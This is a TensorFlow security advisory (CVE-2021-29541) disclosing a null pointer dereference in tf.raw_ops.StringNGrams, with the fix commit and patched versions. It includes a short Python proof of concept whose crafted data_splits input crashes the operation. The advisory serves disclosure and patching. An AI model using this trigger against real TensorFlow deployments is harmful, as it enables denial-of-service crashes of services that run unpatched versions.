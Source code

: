 ## TFSA-2021-030: Null pointer dereference in `StringNGrams`

### CVE Number
CVE-2021-29541

### Impact
An attacker can trigger a dereference of a null pointer in
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

data=tf.constant([''] * 11, shape=[11], dtype=tf.string)

splits = [0]*115
splits.append(3)
data_splits=tf.constant(splits, shape=[116], dtype=tf.int64)

tf.raw_ops.StringNGrams(data=data, data_splits=data_splits, separator=b'Ss',
                        ngram_widths=[7,6,11],
                        left_pad='ABCDE', right_pad=b'ZYXWVU',
                        pad_width=50, preserve_short_sequences=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L67-L74)
does not fully validate the `data_splits` argument. This would result in
[`ngrams_data`](https://github.com/tensorflow/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L106-L110)
to be a null pointer when the output would be computed to have 0 or negative
size.

Later writes to the output tensor would then cause a null pointer dereference.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/tensorflow/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
